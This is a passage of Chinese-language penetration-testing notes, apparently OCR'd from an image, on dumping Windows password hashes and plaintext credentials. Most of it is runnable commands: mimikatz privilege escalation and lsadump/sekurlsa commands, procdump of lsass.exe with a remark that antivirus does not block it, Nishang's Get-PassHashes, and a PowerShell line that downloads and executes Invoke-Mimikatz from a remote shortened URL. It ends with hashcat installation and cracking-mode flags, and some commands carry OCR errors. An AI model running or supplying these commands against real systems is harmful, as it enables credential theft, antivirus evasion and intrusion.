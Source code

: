 使用mimikatz直接读取本地文件，导出hash信息，该方法需要在目标机上运行mimikatz，所以需要考虑免杀特性在命令行环境中打开mimikatz，输入“privilege::debug”提升权限，然后输入“token::elevate”将权限提升到system，然后输入“lsadump::sam”
5，使用mimikatz在线读取sam文件

在mimikatz目录下打开命令环境，输入如下命令
mimikatz.exe “privilege::debug” “log”
“sekurlsa::logonpasswords”

6，使用mimikatz离线读取lsass.dump文件

1）导出lsass.dmp文件
A. 使用任务管理器导出lsass.dmp文件
在windows NT6中，可以使用任务管理器中直接进行dump操作找到lsass.exe进程，单机右键，选中“Create Dump File”
B. 使用procdump导出lsass.dmp文件
procdump是微软官方发布的工具，可以在命令行下将目标lsass文件导出，且杀软不会拦截，命令为: procdump64.exe -accepteula -ma lsass.exe c:\\lsass.dmp
2）使用mimikatz读取密码hash
在命令行环境下运行mimikatz，将lsass.dmp加载到mimikatz中，然后输入“sekurlsa::minidump lsass.DMP”,如果看到“Switch to MINIDUMP”则成功,
最后执行”sekurlsa::logonpasswords full”读取密码

7，使用powershell对散列值进行dump操作

Nishang的Get-PassHashes.ps1脚本可用于导出散列值以管理员权限打开powershell环境，进入nisang目录，导入Get-PassHashes.ps1 import-module .\\Get-PassHashes.ps1 Get-PassHashes

8，使用powershell远程加载mimikatz抓取散列值和明文密码

在命令行环境中远程获取密码：
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz

- 使用Hashcat获取密码
    1），安装hashcat
    I. github上下载源码进行安装
    Git clone https://github.com/hashcat/hash.git
    Cd hashcat
    Make
    Make install

下载编译好的文件进行安装
下载解压后，能看到包含很多文件，linux使hashcat32.bin/hashcat64.bin
Windows可直接使用 ./hashcat64.bin –h
Kali里面默认集成hashcat，可直接使用

使用Hashcat获取密码
2），hashcat的使用方法
-b 测试当前机器破解的基准速度
-m 指定散列值得类型
-a number 指定破解模式，如hashcat –a 0
0=straight 字典破解
1=combination 组合破解
2=toggle-case
3=brute-force 掩码暴力破解
4=permutation 组合破解
5=table-lookup
